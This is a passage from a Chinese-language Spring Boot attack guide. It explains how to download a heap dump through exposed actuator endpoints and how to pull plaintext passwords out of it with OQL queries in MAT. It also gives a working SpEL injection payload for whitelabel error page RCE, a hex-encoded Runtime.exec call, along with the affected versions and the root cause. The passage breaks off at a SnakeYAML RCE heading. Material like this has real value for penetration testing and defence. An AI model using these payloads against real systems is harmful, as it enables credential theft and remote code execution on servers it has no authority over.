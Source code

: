 GET 请求目标的 /heapdump 或 /actuator/heapdump 接口，下载应用实时的 JVM 堆信息

3. 使用 [MAT](https://www.eclipse.org/downloads/download.php?file=/mat/1.11.0/rcp/MemoryAnalyzer-1.11.0.20201202-win32.win32.x86_64.zip) 工具分析并获得 jvm heap中的密码明文

由于 Value 存储在 Hashtable 与 LinkedHashMap 中,可以使用 OQL 语句辅助分析

```
select * from org.springframework.web.context.support.StandardServletEnvironment //所有Spring相关

select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password")) //名字为password的Hashtable

select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password")) //名字为password的LinkedHashMap
```

![](https://gitee.com/ryuzusunc/archives/raw/master/img/分析内存获取脱敏信息.png)

## 远程代码执行
### whitelabel error page SpEL RCE

**利用条件**

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名

**利用方法**

1. 找到一个正常传参处

比如发现访问 /article?id=xxx ，页面会报状态码为 500 的错误： Whitelabel Error Page，则后续 payload 都将会在参数 id 处尝试。

2. 执行SpEL表达式

输入 /article?id=${7*7} ，如果发现报错页面将 `7*7` 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

将要执行的命令字符串格式转换成 `0x**` 的十六进制 JAVA 字节形式，方便执行任意代码，可以使用工具，如[BerylEnigma](https://github.com/ffffffff0x/BerylEnigma)，也可以自行编写脚本完成

例：
```
calc  --->  0x63,0x61,0x6C,0x63

${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6C,0x63}))}
```

![](https://gitee.com/ryuzusunc/archives/raw/master/img/SpringEL%E8%A1%A8%E8%BE%BE%E5%BC%8FRCE.png)

**漏洞原理**
- spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
- 此时 URL 中的参数值会用 parseStringValue 方法进行递归解析
- 其中 ${} 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

### spring cloud SnakeYAML RCE
